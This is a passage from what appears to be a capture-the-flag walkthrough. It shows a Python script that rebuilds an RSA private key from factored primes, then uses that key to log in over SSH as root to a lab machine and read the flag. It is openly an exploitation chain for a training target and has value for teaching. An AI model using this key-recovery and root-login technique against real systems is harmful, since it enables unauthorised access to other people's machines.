 Here's the final script to assemble our key:

```python
from Crypto.PublicKey import RSA
from Crypto.Util.number import inverse

# Replace these with your actual values!
n = ...  # The modulus you found earlier
e = ...  # The public exponent (usually 65537)
p = ...  # The first prime factor you found
q = ...  # The second prime factor you found

# Calculate phi, which is a necessary step for finding 'd'
phi = (p - 1) * (q - 1)

# Calculate 'd', the modular multiplicative inverse of e mod phi
d = inverse(e, phi)

# Construct the full private key from all its components
key = RSA.construct((n, e, d, p, q))

# Save our shiny new private key to a file
with open("private_key.pem", "wb") as f:
    f.write(key.export_key("PEM"))

print("Private key 'private_key.pem' has been generated successfully!")
```

Fill in the variables, run the script, and you'll have a `private_key.pem` file ready for action.

---

### Step 5: The Grand Finale - Root Access

We have the key. The door (SSH) is open. The note said `root` login is enabled. It's time to walk in.

First, we need to set the correct permissions on our new private key. SSH is very picky and won't use a key that others can read.

```bash
❯ chmod 400 private_key.pem
```

Now for the moment of truth. Let's SSH in as `root`.

```bash
❯ ssh root@$IP -i private_key.pem
```

You should be greeted with a root shell. The system is ours! All that's left is to claim our prize.

```bash
root@ip-10-10-243-171:~# cat flag
**********************************
```
